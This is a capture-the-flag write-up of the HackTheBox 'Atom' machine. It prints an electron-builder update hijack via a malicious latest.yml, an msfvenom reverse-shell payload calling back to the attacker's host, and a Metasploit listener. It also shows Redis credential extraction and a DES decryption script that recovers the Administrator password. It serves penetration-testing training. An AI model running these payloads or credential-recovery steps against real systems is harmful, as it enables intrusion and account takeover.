

# Atom - HackTheBox
Windows, 30 Base Points, Medium

## Machine


 
## Atom Solution

### User

So let's start with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ nmap -sC -sV -oA nmap/Atom 10.10.10.237
# Nmap 7.80 scan initiated Sat Apr 17 22:01:25 2021 as: nmap -sC -sV -oA nmap/Atom 10.10.10.237
Nmap scan report for 10.10.10.237
Host is up (0.11s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h23m49s, deviation: 4h02m31s, median: 3m47s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: ATOM
|   NetBIOS computer name: ATOM\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-17T12:06:09-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-17T19:06:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 17 22:02:58 2021 -- 1 IP address (1 host up) scanned in 93.11 seconds

```

Let's try to observe port 80:


So we can see site with download link for Heed program, one user ```MrR3boot``` and domain ```atom.htb```.

Let's try to enumerate the smb shares using ```smbclient```:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ smbclient -L 10.10.10.237
Enter WORKGROUP\user's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Software_Updates Disk      
SMB1 disabled -- no workgroup available
```

By browsing the last share ```Software_Updates Disk``` we can get pdf file ```UAT_Testing_Procedures.pdf```:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ smbclient \\\\10.10.10.237\\Software_Updates Disk
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri May  7 01:55:37 2021
  ..                                  D        0  Fri May  7 01:55:37 2021
  client1                             D        0  Fri May  7 01:55:37 2021
  client2                             D        0  Fri May  7 01:55:37 2021
  client3                             D        0  Fri May  7 01:55:37 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 14:18:08 2021

		4413951 blocks of size 4096. 1364689 blocks available
smb: \> get UAT_Testing_Procedures.pdf
getting file \UAT_Testing_Procedures.pdf of size 35202 as UAT_Testing_Procedures.pdf (89.5 KiloBytes/sec) (average 89.5 KiloBytes/sec)
smb: \> 
```

By reading the pdf file we see the following:


[electron-builder](https://www.electron.build/) is acomplete solution to package and build a ready for distribution Electron app for macOS, Windows and Linux with “auto update” support out of the box.

By google search we can get the following reference [https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html) to get RCE using electron-builder update.

So by the reference above we need to create ```latest.yml``` file as follow:
```console
version: 1.2.3
path: http://10.10.14.14:8000/e'vyatar.exe
sha512: 835e9df4392c5204808bc23509f7b8d0213214bc1ac987bb2be4cfda91271d0490d5fd3d6381207edd7a5df5f4b824eaa0535559c13e4670a53dd1e0d10fd61a
```

Which ```e'vyatar.exe``` created using ```msfvenom```:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=5555 -f exe > e'vyatar.exe
```

The next step is to listen to port 5555 using metasploit:
```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > set LHOST 10.10.14.14
LHOST => 10.10.14.23
msf6 exploit(multi/handler) > exploit -j -Z
```

Create web server using python:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
```

Upload the ```latest.yml``` file using ```smbclient```:
```console
smb: \> cd 
smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml (0.9 kb/s) (average 0.6 kb/s)
```

Wait few seconds and we pop a shell:
```console
msf6 exploit(multi/handler) > [*] Command shell session 1 opened (10.10.14.14:5555 -> 10.10.10.237:51603) at 2021-05-07 02:15:01 +0300
msf6 exploit(multi/handler) > sessions -i 1
C:\WINDOWS\system32>whoami
whoami
atom\jason
C:\WINDOWS\system32> cd c:\Users\jason\Desktop
c:\Users\jason\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of c:\Users\jason\Desktop

04/02/2021  10:29 PM    <DIR>          .
04/02/2021  10:29 PM    <DIR>          ..
03/31/2021  02:09 AM             2,353 heedv1.lnk
03/31/2021  02:09 AM             2,353 heedv2.lnk
03/31/2021  02:09 AM             2,353 heedv3.lnk
05/06/2021  03:19 PM                34 user.txt
               4 File(s)          7,093 bytes
               2 Dir(s)   5,598,052,352 bytes free

c:\Users\jason\Desktop>type user.txt
type user.txt
f02e91f70bd698aa8e74e075ae9ba2f0

```

And we get the user flag ```f02e91f70bd698aa8e74e075ae9ba2f0```.

### Root

By enumerate the user folder we can see on ```Downloads``` the following directory:
```console
c:\Users>dir c:\users\jason\downloads\PortableKanban\
dir c:\users\jason\downloads\PortableKanban\
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of c:\users\jason\downloads\PortableKanban

04/02/2021  08:21 PM    <DIR>          .
04/02/2021  08:21 PM    <DIR>          ..
02/27/2013  08:06 AM            58,368 CommandLine.dll
11/08/2017  01:52 PM           141,312 CsvHelper.dll
06/22/2016  09:31 PM           456,704 DotNetZip.dll
04/02/2021  07:44 AM    <DIR>          Files
11/23/2017  04:29 PM            23,040 Itenso.Rtf.Converter.Html.dll
11/23/2017  04:29 PM            75,776 Itenso.Rtf.Interpreter.dll
11/23/2017  04:29 PM            32,768 Itenso.Rtf.Parser.dll
11/23/2017  04:29 PM            19,968 Itenso.Sys.dll
11/23/2017  04:29 PM           376,832 MsgReader.dll
07/03/2014  10:20 PM           133,296 Ookii.Dialogs.dll
04/02/2021  07:17 AM    <DIR>          Plugins
04/02/2021  08:22 PM             5,920 PortableKanban.cfg
01/04/2018  09:12 PM           118,184 PortableKanban.Data.dll
01/04/2018  09:12 PM         1,878,440 PortableKanban.exe
01/04/2018  09:12 PM            31,144 PortableKanban.Extensions.dll
04/02/2021  07:21 AM               172 PortableKanban.pk3.lock
09/06/2017  12:18 PM           413,184 ServiceStack.Common.dll
09/06/2017  12:17 PM           137,216 ServiceStack.Interfaces.dll
09/06/2017  12:02 PM           292,352 ServiceStack.Redis.dll
09/06/2017  04:38 AM           411,648 ServiceStack.Text.dll
01/04/2018  09:14 PM         1,050,092 User Guide.pdf
              19 File(s)      5,656,416 bytes
               4 Dir(s)   5,595,258,880 bytes free

```

By reading the pdf file ```User Guide.pdf``` we understand how to use ```redis-client.exe``` (We can get this pdf by simply copy the file as follow: ```copy "c:\users\jason\downloads\PortableKanban\User Guide.pdf" c:\Software_Updates``` and then get it using ```smbclient```).

By enumerate the redis directory:
```console
c:\Program Files\Redis>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9793-C2E6

 Directory of c:\Program Files\Redis

05/06/2021  03:20 PM    <DIR>          .
05/06/2021  03:20 PM    <DIR>          ..
07/01/2016  03:54 PM             1,024 EventLog.dll
04/02/2021  07:31 AM    <DIR>          Logs
07/01/2016  03:52 PM            12,618 Redis on Windows Release Notes.docx
07/01/2016  03:52 PM            16,769 Redis on Windows.docx
07/01/2016  03:55 PM           406,016 redis-benchmark.exe
07/01/2016  03:55 PM         4,370,432 redis-benchmark.pdb
07/01/2016  03:55 PM           257,024 redis-check-aof.exe
07/01/2016  03:55 PM         3,518,464 redis-check-aof.pdb
07/01/2016  03:55 PM           268,288 redis-check-dump.exe
07/01/2016  03:55 PM         3,485,696 redis-check-dump.pdb
07/01/2016  03:55 PM           482,304 redis-cli.exe
07/01/2016  03:55 PM         4,517,888 redis-cli.pdb
07/01/2016  03:55 PM         1,553,408 redis-server.exe
07/01/2016  03:55 PM         6,909,952 redis-server.pdb
04/02/2021  07:39 AM            43,962 redis.windows-service.conf
04/02/2021  07:37 AM            43,960 redis.windows.conf
07/01/2016  09:17 AM            14,265 Windows Service Documentation.docx
              16 File(s)     25,902,070 bytes
               3 Dir(s)   5,593,325,568 bytes free

``` 

We can see the file ```redis.windows.conf``` which contains the redis password (https://stackoverflow.com/questions/7537905/how-to-set-password-for-redis):
```
requirepass kidvscat_yes_kidvscat
```

Let's read the keys from redis:
```console
c:\Program Files\Redis>redis-cli -a kidvscat_yes_kidvscat keys *  
redis-cli -a kidvscat_yes_kidvscat keys *
pk:ids:MetaDataClass
pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
pk:ids:User
pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff

```

By reading the key:
```console
c:\Program Files\Redis>redis-cli -a kidvscat_yes_kidvscat get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
redis-cli -a kidvscat_yes_kidvscat get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}

```
We can see this file contains the ```Administrator``` password.

We can decrypt the password above using [PortableKanban 4.3.6578.38136 - Encrypted Password Retrieval](https://www.exploit-db.com/exploits/49409), We just need to change the script a little:
```python
import json
import base64
from des import * #python3 -m pip install des
import sys

try:
	path = sys.argv[1]
except:
	exit("Supply path to PortableKanban.pk3 as argv1")

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

with open(path) as f:
	try:
		data = json.load(f)
	except: #Start of file sometimes contains junk - this automatically seeks valid JSON
		broken = True
		i = 1
		while broken:
			f.seek(i,0)
			try:
				data = json.load(f)
				broken = False
			except:
				i+= 1
			
print(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"))
```

And by running the python we get the ```Administrator``` password:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ python3 p3.py a.pk3 
kidvscat_admin_@123
```

Let's use ```smbclient``` (or we can use also winrm) to get the ```Administrator``` flag:
```console
┌─[evyatar@parrot]─[/hackthebox/Atom]
└──╼ $ smbclient \\\\10.10.10.237\\C$ -U Administrator
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> cd \Users\Administrator\Desktop\
smb: \Users\Administrator\Desktop\> get root.txt
...
<print the root.txt file>
9aedd513cb916b3e49abaf6abccb6679
...
```

And we get the root flag ```9aedd513cb916b3e49abaf6abccb6679```.
